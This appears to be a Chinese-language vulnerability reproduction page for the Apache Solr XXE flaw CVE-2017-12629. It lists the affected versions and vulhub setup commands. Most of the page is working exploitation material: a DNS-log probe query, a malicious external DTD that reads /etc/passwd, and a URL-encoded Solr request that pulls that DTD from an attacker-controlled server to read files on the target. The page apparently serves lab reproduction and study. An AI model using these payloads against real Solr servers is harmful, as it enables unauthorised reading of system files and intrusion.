 ```yaml
---
title: Apache Solr XXE 漏洞 CVE-2017-12629
---
```


# Apache Solr XXE 漏洞 CVE-2017-12629

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）。

## 影响版本

<a-checkbox checked>Apache Solr < 7.1</a-checkbox></br>
<a-checkbox checked>Apache Lucene < 7.1</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629-XXE
docker-compose build
docker-compose up -d
```

## 漏洞复现
先请求url地址获取 core 内容

```
/solr/admin/cores
```

![image-20220307150410724](/assets/PeiQi-Wiki/img/image-20220307150410724.png)

发送请求

```
/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```

查看dnslog得到请求

![b7254e29-c3a3-4654-b960-10f1a3589021](/assets/PeiQi-Wiki/img/b7254e29-c3a3-4654-b960-10f1a3589021.png)

在自己的服务器上写入一个可访问的XML文件，内容写入

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件

```
/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fxxx.xxx.xxx.xxx%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser
```

![277c42b0-7152-457b-b4f2-faee9dc4849f](/assets/PeiQi-Wiki/img/277c42b0-7152-457b-b4f2-faee9dc4849f.png)

注意这里的payload进行了url编码,请求的文件为 `http://xxx.xxx.xxx.xxx/1.dtd`，有更多需求自行更改写入的xml文件


